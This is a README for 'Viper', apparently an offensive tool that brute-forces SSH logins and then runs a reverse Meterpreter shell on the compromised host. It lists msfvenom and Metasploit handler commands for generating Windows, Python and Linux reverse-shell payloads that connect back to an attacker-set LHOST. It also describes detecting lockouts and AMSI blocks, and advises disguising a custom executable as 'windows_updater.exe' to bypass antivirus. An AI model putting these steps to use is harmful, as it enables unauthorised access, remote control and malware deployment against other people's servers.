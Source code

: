 Viper V1.2
================
Viper is a SSH Multi-Threaded Brute force Framework

<img src="https://raw.githubusercontent.com/darkseid-security/Viper/main/Screenshots/Screenshot_2023-09-25_14_36_01.png">
 
Features
=============
- Multi Threaded using multiprocessing can use a maximum of 5 Threads
- Easy to configure 
- Adjustable Threads
- Visual UI including progress bar
- When password is cracked program will attempt to execute a meterpreter payload
- Built in reverse meterpreter shell for Linux and Windows
- Supports x86,x64 archtechture for Windows and Linux
- [*Updated Feature] Added python/meterpreter/reverse_tcp_ssl
- [*New Feature] Added windows/meterpreter/reverse_tcp 
- [*New Feature] Detects account lockout
- [*New Feature] Detects if AMSI has blocked payload
- [*New Feature] Upload file to server if code execution fails
 

TODO
=========
- Add OS version detection


Payloads
=================

* Windows Meterpreter:
  - generate payload from exploit/multi/script/web_delivery for every metasploit session
  - enable SSL: set SSL true
  - set payload windows/meterpreter/reverse_tcp
  - Select powershell payload: set target 2
  - set LPORT 8443
  - set LHOST
  - run
  - copy payload and replace value of client.exec_command()
  
* Python Meterpreter:
 - generate payload: msfvenom -p payload python/meterpreter/reverse_tcp_ssl lhost=IP lport=4433 -f python -o update.py
 - use exploit/multi/handler
 - set payload python/meterpreter/reverse_tcp_ssl
 - set LPORT 4433
 - set LHOST
 - run -j
 
* Linux Meterpreter:
 - generate payload: msfvenom -p payload linux/x86/meterpreter_reverse_https lhost=IP lport=443 -f elf -o payload.elf
 - use exploit/multi/handler
 - set payload linux/x86/meterpreter_reverse_https
 - set LPORT 443
 - set LHOST
 - run -j

Note
=========
- If threads set to 5 if someone logs in to SSH while brute-forcing program will crash.
- Add own windows executable to /Files/windows_updater.exe to bypass AV and change windows_malware variable to windows_updater.exe.

Run
========
- Generate payloads/files and put in Files folder
- Edit config in Viper.py script to set to target
